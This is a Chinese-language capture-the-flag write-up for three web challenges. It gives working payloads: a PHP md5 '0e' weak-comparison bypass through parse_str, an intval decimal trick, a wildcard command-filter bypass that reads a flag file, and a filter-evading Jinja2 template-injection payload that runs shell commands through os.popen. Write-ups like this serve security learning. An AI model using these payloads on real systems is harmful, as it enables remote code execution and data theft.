 ## web
### 小蓝鲨的冒险
1.  
    ```php
    if ($a[0] != 'QNKCDZO' && md5($a[0]) == md5('QNKCDZO'))
    ```
    第一步要绕过这个if判断，计算了下发现`QNKCDZO`的md5`0e830400451993494058024219903391`，前两位是`0e`,看到后面的`==`弱比较，所以我们只让`$a[0]`的值md5运算后前两位是oe即可
    ```php
    $a = "isctf2024";
    $b = $_GET["b"];
    @parse_str($b);
    ```
    `$a`默认赋了一个值显然不满足我们的条件，好在有`parse_str`函数,并且`$b`的值我们可以制  
    传入`?b=a=s878926199a`时，`$a[0]`为`s`  
    传入`?b=a[0]=s878926199a`时，`$a[0]`为`s878926199a`是我们想要的值，第一关就通过了 
2.   
    ```php
    if($num == 2024){
        die("QAQ小蓝鲨误入陷阱，不怕，再接再厉！");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("陷阱太多QAQ");
    }
    if(intval($num,0) == 2024)
    ```
    `intval`函数会取数字的整数部分，要满足条件传入一个小数即可  
    payload: `num=2024.9`  
3.  
    `require_once`函数会包含我们输入的php文件，`switch`语句在没有找到匹配的内容时会依次执行直到有`break`出现，所以传入`?which=flag`即可

最终payload:  
```
?b=a[0]=s878926199a&which=flag
num=2024.9
```
### 1z_php
我们输入的命令不能含有一下字符，用通配符可以绕过  
```php
['cat', 'tac', 'head', 'nl', 'more', 'less', 'tail', 'vi', 'sed', 'od']
```
payload:  `J=/bin/ca* /f14g`  
### ezSSTI
经过尝试得知:  本题过滤了`[`中括号和`_`下划线,参考文章https://blog.csdn.net/weixin_52635170/article/details/129850863  
payload:  
```
{%set pop=dict(po=a,p=b)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(24)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set get=dict(get=a)|join%}
{%set shell=dict(o=a,s=b)|join%}
{%set popen=dict(popen=a)|join%}
{%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set ch=dict(ch=a,r=b)|join%}
{%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(ch)%}
{%set command=char(99)%2bchar(97)%2bchar(116)%2bchar(32)%2bchar(47)%2bchar(102)%2bchar(108)%2bchar(97)%2bchar(103)%}
{%set result=(lipsum|attr(globals))|attr(get)(shell)|attr(popen)(command)%}
{%print result%}
```
传入得到flag:  